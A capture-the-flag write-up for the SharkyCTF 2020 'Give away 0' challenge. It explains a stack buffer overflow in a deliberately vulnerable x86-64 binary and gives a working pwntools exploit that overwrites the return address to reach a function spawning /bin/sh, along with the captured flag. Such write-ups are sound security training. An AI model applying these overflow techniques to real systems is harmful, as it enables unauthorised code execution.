 # SharkyCTF 2020

## Give away 0

> 160
>
> Home sweet home.
>
> Creator: Hackhim
>
> `nc sharkyctf.xyz 20333`
>
> [`0_give_away`](0_give_away)

Tags: _pwn_ _bof_ _x86-64_


## Summary

Overflow buffer; overwrite return address with address of win function.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No canary; buffer overflow vulnerability.  No PIE; ROPtions.  GOT some too.

    
### Decompile with Ghidra

```c
void vuln(void)

{
  char local_28 [32];
  
  fgets(local_28,0x32,stdin);
  return;
}
```

`32 != 0x32` (`50`) is the vulnerability.  With no PIE overwriting the return address in the stack and calling `win_func` is trivial:

```c
void win_func(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

Just write `0x28` bytes to get to the return address in the stack:

```
             undefined         AL:1               <RETURN>
             undefined1        Stack[-0x28]:1     local_28
```

Then the address of `win_func`.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./0_give_away')
p = remote('sharkyctf.xyz', 20333)

binary = ELF('./0_give_away')
win = binary.symbols['win_func']

payload  = 0x28 * b'A'
payload += p64(win)

p.sendline(payload)
p.interactive()
```

Output:

```
[+] Opening connection to sharkyctf.xyz on port 20333: Done
[*] '/pwd/datajerk/sharkyctf2020/giveaway0/0_give_away'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
$ cat flag.txt
shkCTF{#Fr33_fL4g!!_<3}
```

